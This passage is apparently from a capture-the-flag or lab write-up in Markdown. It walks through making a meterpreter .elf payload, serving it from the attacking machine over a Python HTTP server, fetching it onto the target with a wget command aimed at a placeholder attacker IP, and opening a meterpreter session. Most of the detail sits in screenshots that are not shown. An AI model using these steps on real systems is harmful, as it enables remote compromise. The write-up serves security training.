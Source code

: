 * Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).
	
	![task6-elf](./images/task6-elf.png)

* Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine).

	* HTTP Server on attacking machine
	
		![task6-http](./images/task6-http.png)

	* Download file on target machine
	
		![task6-download](./images/task6-download.png)

* Get a meterpreter session on the target machine.

	* Run handler
	
		![task6-meterpreter](./images/task6-meterpreter.png)

	* Meterpreter
	